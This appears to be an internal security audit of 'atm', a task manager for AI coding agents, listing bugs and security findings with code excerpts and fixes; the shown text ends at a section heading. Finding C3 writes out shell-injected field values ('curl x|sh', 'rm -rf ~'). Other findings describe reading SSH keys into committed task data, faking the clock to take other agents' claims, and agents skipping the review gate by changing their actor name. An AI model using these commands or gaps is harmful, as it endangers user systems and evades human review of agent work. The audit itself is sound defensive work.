









# Codebase audit, November 2026 (partial)

**Status: complete.** Six areas: the core task logic (§2), the app with CI, packaging and the skills (§3), the CLI
with `atm-common` (§4), the HTTP server (§5), reviews with git and the store (§6) and the dashboard (§7); the
themes (§8) and an order to fix them (§9). No finding is Critical once checked; the most serious are L1, R1–R3, L2
and A1.

Read-only audit of `dev/0.41.0` at `b50f93bc`. Nothing was built or run for it. **Checked** means I read the quoted
code myself after the auditor reported it; **reported** means only the auditor read it.

## 1. Architecture



### The task state machine, as the code implements it

Every transition goes through `state::change_status`; claims and the `waiting` / `completed` records are written
around it in `changes.rs`.



### The release pipeline



## 2. Findings: core task logic (`crates/atm-lib`)

### L1. High, bug: a task back from review is never handed out by `atm loop next` (checked)

`changes.rs:34` lists `Approve`, `RequestChanges` and `Reject` among the commands that write a `waiting` record
(`changes.rs:310`). `loop_rules.rs:314` then drops every candidate with such a record, whichever worktree wrote it:

```rust
let taken: HashSet<String> = [section("claims"), section("completed"), section("waiting")]
    .concat()
    .into_iter()
    .collect();
```

The rework candidates built just above (`loop_rules.rs:282-291`) are therefore always filtered out. The skills
promise the opposite ("`atm loop next` hands tasks back from review before new ones"). `status.rs:208` already
ignores this worktree's own records; `loop_order` should too. Reported, not checked: the scenarios seed `in_review`
tasks straight into the task file, so no `waiting` record exists in them and the tests pass.

A decision on a code review takes the same path (reported, R-audit): `reviews::submit` (`reviews.rs:671-674`) runs
`change_task_status` with `Approve` or `RequestChanges`, which re-inserts the record. So **every** task whose review
asks for changes, or is approved and waits to be finished, is never handed back by the loop, and the reason given
("blocked or in review in another worktree") is wrong. Fix: in `loop_order`, ignore `waiting` records of this
worktree, as `status.rs:208` does, and stop recording `Approve`/`RequestChanges` as a wait; add a scenario that runs
request-changes and then `loop next`.

### L2. High, security: the review gate rests on the actor's name starting with `claude:` (checked in part)

`actor.rs:28` returns `--agent`, else `ATM_AGENT`, else `claude:<session>` only when `CLAUDE_CODE_SESSION_ID` is
set, else the git user name. Reported: `is_agent` (`atm-common/src/edits.rs:239`) is `starts_with("claude:")`, and
`state.rs:272` refuses "done without review" only for an agent.

- An agent in Codex, Cursor, Copilot, OpenCode or Gemini (all installed by `atm agents install`) acts as the git
  user, so a `blocker` task can be marked done with no review.
- `--agent 'Some Name'` does the same from Claude Code. The skills forbid it (I23), atm does not.

Fix: treat an actor as a person only on positive evidence (the app or server path, or a terminal with no harness
variables).

### L3. Medium, bug: `atm db unarchive T-1 T-1` writes the task twice (checked)

`archive.rs:345` extends the tasks from `ids` as given, while the count three lines below uses a `HashSet`:

```rust
let back: Vec<Value> = ids.iter().filter_map(|i| found(i)).collect();
work.tasks().extend(back);
```

A key and its alias resolve to the same ID, so this needs no typo. Deduplicate `ids` first.

### L4. Medium, inconsistency: a skipped dependency blocks until it is archived, then counts as done (checked)

`atm-common/src/rules.rs:164` blocks on a live dependency unless its kind is `Done`, so a skipped one blocks. Once
archived, `rules.rs:176` only asks whether it is in the archive at all:

```rust
Some(live) => {
    if vocab.kind_of(live.get("status")) != Some(Kind::Done) {
        found.push((dep.to_string(), live.get("status").cloned()));
    }
}
...
None => {
    if !archived(dep)? {
```

B waits on A (skipped as `wont_do`) and can't start; after `keep_days`, `atm db archive` moves A and B is handed out.
Fix: one `dependency_met(kind, resolution)` used for live, archived and foreign tasks, with `archived` returning the
archived task's kind rather than a bool.

### L5. Medium, bug: `atm db init --meta-file` on an existing project overwrites any `meta` key (checked)

`settings.rs:80-85` inserts every key of the file into `meta` and then checks only the vocabularies. A re-run with
`key` changes the project key without `key_history` (bypassing `set_project_key`); `format`, `next_number`,
`sprints` or `releases` are replaced too. Fix: an allow-list of keys for an existing project.

### L6. Medium, bug: archiving drops batch tasks from the end-of-sprint review (checked)

`atm-common/src/archive.rs:101` `archivable_by` keeps back recent tasks and tasks in an open PR, but not tasks with
`sprint_review: pending`. `close_sprint` looks only at the working tasks (`sprints.rs:669`, reported), so after an
archive it needs no `--reviewed` and those tasks stay pending in the archive. Fix: add
`.filter(|t| t.get("sprint_review") != Some(&json!("pending")))`.

### L7. Medium, inconsistency: "Next" in `project status` and the dashboard isn't `loop next`'s (checked)

`status.rs:117` and `summary.rs:622` take `store.read_claims()` as stored and hand it to `next_task`; `next_task_for`
first drops expired claims (`changes.rs:459-462`). With an agent crashed holding T-3, the status says T-3 is claimed
and names another task as next, while `loop next` hands out T-3. Fix: one read-only `live_claims(store, now)` used by
all three.

### Reported, not yet checked by me

| # | Severity | What | Where |
|---|---|---|---|
| L8 | Medium/Low | Sprint close, delete and move decide "claimed" from this copy's status, never the claims store | `sprints.rs:658` |
| L9 | Low | A huge `meta.lease_minutes` expires every claim at once, or overflows | `leases.rs:16`, `loop_rules.rs:229` |
| L10 | Low | `todo_command` uses the default vocabulary and counts expired claims | `changes.rs:397` |
| L11 | Low | Two definitions of a done task's stage | `releases.rs:27`, `query.rs:236` |
| L12 | Low | Another project is found by `meta.id`, which two clones share | `foreign.rs:273` |
| L13 | Low | `backlog`, `new`, `active`, `next` are accepted as sprint names | `sprints.rs:263` |
| L14 | Low | The project summary cache doesn't notice a lease running out | `workspaces.rs:448` |
| L15 | Low | `agents install --project` writes through a symlinked skills folder; `agents.json` has no lock | `agents.rs:312` |

### Repetition and abstractions (reported)

- **`store.change` with an `Option` outcome**, about 30 call sites: `Project::change<T>(f) -> Result<T>`.
- **"Find a task or say it is archived"**, six copies: one `task_at(work, id)` returning `NotFound`.
- **The expiry preamble**, four copies: `expire(work, vocab)`.
- **The "is it archived" closure**, five copies: a `Dependencies { tasks, archive }` type, which is also where L4 is
  fixed.
- **`REWORK_STATES`**, three copies; **`id_of`**, seven modules; `valid_label`, `find_release`, `in_open_pr`, twice
  each.
- **Unknown task and unknown sprint** are built as different error variants in different modules.

## 3. Findings: the app, CI, packaging, skills

### A1. Medium-High, security: signing secrets are in the environment while the app compiles (checked)

`release.yml:130-144`: the step that runs `tauri build` (every crate's build script, the npm packages) has the
updater key, its password and the notary key. The CLI's `build` job compiles first and signs after.

```yaml
          TAURI_SIGNING_PRIVATE_KEY: ${{ secrets.TAURI_SIGNING_PRIVATE_KEY }}
          TAURI_SIGNING_PRIVATE_KEY_PASSWORD: ${{ secrets.TAURI_SIGNING_PRIVATE_KEY_PASSWORD }}
        run: |
          printf '%s' "$NOTARY_KEY_P8" | base64 --decode > "$NOTARY_KEY"
          ...
          pnpm --dir dashboard run app:bundle --target universal-apple-darwin
```

Fix: compile both targets in an earlier step without secrets, then bundle and sign.

### A2. Medium, security: pre-approved commands read any file into task data (checked)

`task/edit.rs:99` reads `cwd.join(file)`, and an absolute path replaces `cwd`. `atm task edit` is pre-approved for
agents, so `--description-file ~/.ssh/…` runs without a prompt and lands in the task file, which is committed and
pushed. Reported: the same at `db.rs:191` and `review.rs:751`. Fix: refuse paths outside the project and the temp
folder, and hidden or key files.

### A3. Low, bug: `windows.json` writes race (checked)

`session.rs:283`: every writer uses the same `windows.json.next` and no lock is held across write and rename.

### A4. Low, bug: the loop skill names `atm sprints --json` (checked that the line is there)

`skills/atm-loop-tasks/SKILL.md:174`. Reported: the command is `atm sprint list --json`.

### Reported, not yet checked by me

| # | Severity | What | Where |
|---|---|---|---|
| A5 | Medium | Release secrets are repository-level: no environment, no `v*` tag ruleset, the workflow doesn't check the tag is on `main` | `release.yml`, `rulesets/main.json` |
| A6 | Medium | CompMD's frames count as local to Tauri, so the window's capability covers them; the guide says otherwise | `capabilities/main.json:5` |
| A7 | Medium | The menu is rebuilt on the main thread on every focus change, reading every project | `lib.rs:143`, `menu.rs:630` |
| A8 | Low-Medium | A deep link sent while a page reloads is lost | `links.rs:84` |
| A9 | Low-Medium | The Dock badge is app-wide but set from the calling window's workspace | `badge.rs:205` |
| A10 | Low-Medium | An update's version comes from the manifest alone (rollback) | `updates.rs:46` |
| A11 | Low | Dependabot has no `cargo` ecosystem; the release runners are `-latest`; the sandbox images are unpinned | `dependabot.yml`, `release.yml:22` |
| A12 | Low | The Homebrew scripts put the version and checksums into Ruby unvalidated; deploy keys accept a new host key | `packaging/homebrew-*.sh`, `homebrew.yml:41` |
| A13 | Low | `atm version` and `atm docs` open every skill but aren't pre-approved | `skills/claude-code.json` |

### Repetition (reported)

- **The dashboard build block** six times in the workflows, with the pnpm version in each: one composite action.
- **The app's command list** in four places (`lib.rs`, `build.rs`, the capability, the permissions).
- **Fourteen review commands** of one shape in `commands.rs:536-791`: a `with_user(state, w, p, |project| …)`.
- **`.lock().unwrap_or_else(PoisonError::into_inner)`** about ten times; `.map_err(|e| AppError::Failed(…))` about
  fifteen.

### Done right (reported)

One permission per command and no plugin permission; a strict CSP kept equal to the dev one by a test; `open_url`'s
scheme allow-list; deep links through one validator; `pull_request` only, read-only tokens, actions pinned by SHA; a
draft release only a person publishes; no skill pre-approves a review decision.

## 4. Findings: the CLI and `atm-common`

The CLI audit found nothing Critical or High. The hand-written `sha1.rs` and `sha256.rs` match FIPS 180-4, and
neither is used for a secret (project IDs, `home_id`, the page's CSP hashes).

### How a command runs



### C1. Medium, security: every `--*-file` option reads any path, of any size (checked, see A2)

The same pattern is at seven places (`task/add.rs:117`, `:189`, `task/edit.rs:99`, `review.rs:317`, `:752`, `:841`,
`db.rs:191`). There is no size cap either: `--body-file /dev/zero` reads until memory runs out. Fix: one
`read_option_file(cwd, option, file)` confining the path to the project or the temp folder, refusing dot-folders,
capped at about 1 MiB. It also fixes C17's inconsistent errors.

### C2. Medium, bug: usage errors and "claimed by another" reach the dashboard as HTTP 500 (checked)

`atm-api/src/routes.rs:122` maps every `Error::Failed` to 500. About 22 places build usage errors as
`Failed { code: 2 }` (a note over the limit, an unknown release, a wrong `--status`), and four build "claimed by
another" as `Failed { code: 4 }`.

```rust
atm_common::Error::Invalid(_) => StatusCode::BAD_REQUEST,
...
atm_common::Error::Failed { .. } => StatusCode::INTERNAL_SERVER_ERROR,
```

Fix: the code-2 cases become `Error::Invalid`, and a new `Error::Conflict` gives exit 4 and HTTP 409.

### C3. Medium, security: status, type and priority IDs, and sprint names, aren't shell-safe (checked)

`vocabulary.rs:211-215` only requires a non-empty string, while releases and components go through
`valid_short_id`. A status `done$(curl x|sh)` or a sprint `s1;rm -rf ~` loads, and agents paste such names into
commands (I8 covers task IDs and the base branch only). Fix: `valid_short_id` in `terms()`, and a character set for
sprint names.

### C4. Medium, security: `ATM_NOW` replaces the clock in release builds (checked)

`time.rs:8-13`. Claim liveness reads `now()`, so `ATM_NOW=2099-01-01T00:00:00Z atm loop next --claim` makes every
other agent's lease look expired and takes their task. Fix: honour it only in debug builds or with a test-only
variable set.

### C5. Low, bug: `--timeout 1e20` panics (checked)

`review.rs:623` calls `Duration::from_secs_f64`, which panics past what a `Duration` holds. Use
`Duration::try_from_secs_f64(seconds).map_err(|_| bad())`.

### Reported, not yet checked by me

| # | Severity | What | Where |
|---|---|---|---|
| C6 | Medium | `atm service stop` kills whatever pid a local port's whoami names; another user can answer on the port | `maintenance.rs:464`, `:518` |
| C7 | Medium | Breaking a stale server lock races: two `atm service` runs can start two servers | `maintenance.rs:276` |
| C8 | Medium | Each printed line with a UUID reopens the project and rereads the archive; `say()` does it twice | `commands.rs:56`, `output.rs:78` |
| C9 | Low | `output::clean` lets bidi and format characters through (Trojan Source in task names) | `output.rs:105` |
| C10 | Low | The state folder's 0700 is set only on creation; files are created with the umask | `home.rs:110` |
| C11 | Low | `--json` and text output differ (`service start/stop`, `db init`, `vcs commit --record`) | `maintenance.rs:383` |
| C12 | Low | `claim hold` says it holds while its watcher quits when the shell's start time can't be read | `claim.rs:287`, `:344` |
| C13 | Low | `task list --agent` is a filter but `main` takes it as "run as someone else" | `main.rs:396` |
| C14 | Low | `wait_gone` sends SIGKILL by pid alone (pid reuse) | `maintenance.rs:404` |
| C15 | Low | `--open` runs `xdg-open` on Windows | `maintenance.rs:654` |
| C16 | Low | `parse_iso` accepts seconds 60 and 61; the next task number can wrap | `time.rs:117`, `keys.rs:108` |
| C17 | Low | Exit codes differ for one condition (not found is 1 or 2; 3 also means timeout); `--dir` means three things; `--dry-run` checks different amounts | `rules.rs:58`, `main.rs:262`, `edit.rs:93` |
| C18 | Low | `atm-common` does I/O and keeps a global (`FOREIGN_STATUS`), against the layer guide; `TaskId` exists but isn't used | `home.rs`, `rules.rs:121` |
| C19 | Low | `deny.toml` only warns on duplicate versions; `clap_complete`'s unstable feature; specta release candidates | `deny.toml`, `Cargo.toml` |

### Repetition and abstractions (reported)

- **Open as the actor:** 38 `agent: Option<String>` fields and 17 `agent_identity` calls. A flattened
  `#[derive(Args)] struct As { agent }` with `fn open(&self, cwd) -> Result<Project>`.
- **JSON or text:** 92 `if ctx.json` branches. A `trait Shown { fn json(&self) -> Value; fn lines(&self) -> Vec<String>; }`
  with one `show(ctx, &out)`.
- **Dry run:** 49 `if ctx.dry_run` sites with different rules. One `dry(ctx, what)` after validating and resolving.

## 5. Findings: the HTTP server (`atm-api`, `atm-docs`, `atm-fs`)

Nothing Critical. The server's gates are sound: Host before any work, OPTIONS refused, review changes need the
server's own Origin, the session token (compared in constant time) and a JSON body under 1 MB, and every handler
runs under `catch_unwind`.

### How a request flows



### H1. Medium, bug: `git status` renames are misread, and a multibyte old path panics (checked)

`atm-vcs/src/lib.rs:622-623`. With `-z`, a staged rename is `R  new\0old\0`: the second record has no `XY ` prefix,
but the code cuts three bytes off it anyway.

```rust
for entry in status.split('\0').filter(|e| e.len() >= 4) {
    let path = &entry[3..];
```

`README.md` becomes `DME.md`; an old path starting with `éé/` puts byte 3 mid-character and panics, so a live
review's page answers 500 while that rename is staged (reported path: `GET …/reviews/<CR>` →
`live_page_stamp` → `working_state`). Fix: parse R/C entries as two fields, and use `entry.get(3..)`.

### H2. Medium, security: the `.git` refusal is case-sensitive (checked; exploitability suspected)

`atm-docs/src/lib.rs:138-143` matches `.git` and `.agentic-task-manager` exactly, while the `.env` check below it
lowercases. On macOS's case-insensitive file system, `path=.GIT/config` passes this check; whether `git check-ignore`
then refuses it is not verified. If not, the viewer shows `.git/config` (remote URLs, sometimes with tokens), against
I12. Fix: compare case-insensitively, and on Windows also refuse trailing dots or spaces and `~` short names.

### H3. Low, inconsistency: the tasks route maps errors its own way (checked)

`routes/tasks.rs:71-78` turns `NotFound`, `Refused` and `TooLarge` into 500, and only `code() == 2` into 400; every
other route uses `error_response`. Fix: `error_response(&e)`.

### Reported, not yet checked by me

| # | Severity | What | Where |
|---|---|---|---|
| H4 | Medium | `run_with_input` writes all of stdin before reading stdout: a big `check-ignore --stdin` can deadlock (app only) | `atm-vcs/src/lib.rs:35` |
| H5 | Medium | GETs have no Origin or `Sec-Fetch-Site` check: any site can write `recent.json` and start costly git work (`at=:/<regex>`) | `atm-api/src/lib.rs:245` |
| H6 | Low | `at` may name a subtree, so the `.agentic-task-manager` and ignore checks judge the wrong path | `atm-docs/src/lib.rs:363` |
| H7 | Low | The logo route follows symlinks and skips the files route's rules (`.git`, ignored, magic bytes) | `atm-db/src/jsongit/logo.rs:66` |
| H8 | Low | A logo that can't be read is sent as an empty 200 with the file's ETag, and cached | `routes/source.rs:284` |
| H9 | Low | A document at a revision is cached a year, `immutable`, across atm upgrades | `routes/documents.rs:34` |
| H10 | Low | The symlink walk and the read are separate (TOCTOU, local writers only) | `atm-vcs/src/lib.rs:444` |
| H11 | Low | The response builder falls back to a 200 without the security headers | `atm-api/src/lib.rs:195` |
| H12 | Low | CompMD's bundle answers carry no `nosniff` or CORP, and refuse HEAD; other assets send ACAO `*` with CORP same-origin | `assets.rs:80`, `:108` |
| H13 | Low | Search isn't stamped; the build picks a CompMD folder in `read_dir` order | `routes/workspaces.rs:31`, `build.rs:109` |

### Repetition and abstractions (reported)

- **The project is opened up to four times per request** (`member`, `file_version`, `head`, `document`), each with
  the symlink checks and `git check-ignore`: a `Member { project, stamp }` held for the request.
- **Eleven review change handlers** of one shape: `change::<Body, Result>(made, body, op)` and one
  `json_of<T: Serialize>`.
- **Conditional GET twice** (`send_conditional` and `unchanged` + `not_modified`), and the files route's own tag
  format: one `conditional(request, tag, headers, load)`.
- **`spawn_blocking` + `catch_unwind`** twice: `off_workers(f)`. **The allowed hosts** written twice:
  `Served::is_own_host`.

## 6. Findings: reviews, `atm-vcs` and the store (`atm-db`)

### A review's life cycle



### How the store writes



### R1. High, security: a comment body can forge a reply from anyone (checked)

